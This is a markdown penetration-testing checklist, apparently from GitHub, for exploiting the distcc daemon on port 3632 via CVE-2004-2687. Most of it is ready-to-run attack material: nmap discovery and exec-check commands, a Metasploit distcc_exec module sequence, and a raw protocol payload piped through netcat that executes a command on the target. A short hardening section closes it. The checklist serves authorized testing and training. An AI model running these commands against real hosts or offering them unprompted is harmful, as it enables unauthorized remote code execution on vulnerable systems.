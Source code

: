 # Distcc Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating distcc (port 3632), I realistically expect to find:

- [ ] Misconfigured distccd daemon accepting arbitrary commands
- [ ] Ability to execute remote code (CVE-2004-2687)
- [ ] Potential lateral movement pivot via compromised host

---

## ✅ Distcc Pentest Checklist

- [ ] **Service Discovery**
  - Confirm the service is running on 3632/tcp.
    ```
    nmap -Pn -sV -p3632 <IP>
    ```

- [ ] **Banner Grabbing**
  - Identify distccd version and confirm accessibility.
    ```
    nc <IP> 3632
    ```

- [ ] **Vulnerability Check (CVE-2004-2687)**
  - Run quick command execution test.
    ```
    nmap -p 3632 <IP> --script distcc-exec --script-args="distcc-exec.cmd='id'"
    ```

---

## ✅ Exploitation with Metasploit

- [ ] Use exploit module for RCE:
    ```
    msf6 > use exploit/unix/misc/distcc_exec
    msf6 exploit(unix/misc/distcc_exec) > set RHOSTS <IP>
    msf6 exploit(unix/misc/distcc_exec) > set CMD id
    msf6 exploit(unix/misc/distcc_exec) > run
    ```

---

## ✅ Manual Exploitation Example

- [ ] Using custom Python or Netcat:
    - Example payload from public gist:
      ```
      'DIST00000001ARGC00000002ARGV00000002shARGV00000003-cARGV00000008id;exit'
      ```
    - Send it with:
      ```
      echo -ne 'DIST00000001ARGC00000002ARGV00000002shARGV00000003-cARGV00000008id;exit' | nc <IP> 3632
      ```

---

## ✅ Shodan Dork

- No standardized Shodan detection signature.
- Alternative manual search:
    ```
    port:3632
    ```

---

## ✅ Metasploit References

- Module docs:  
  [Rapid7 Distcc Exec](https://www.rapid7.com/db/modules/exploit/unix/misc/distcc_exec)

- Example public PoC:
  [Gist by DarkCoderSc](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

---

## ✅ Recommendations

- Ensure distccd requires access controls (IP whitelisting).
- Disable or firewall unused services on port 3632.
- Audit and remove legacy or unnecessary distccd installations.
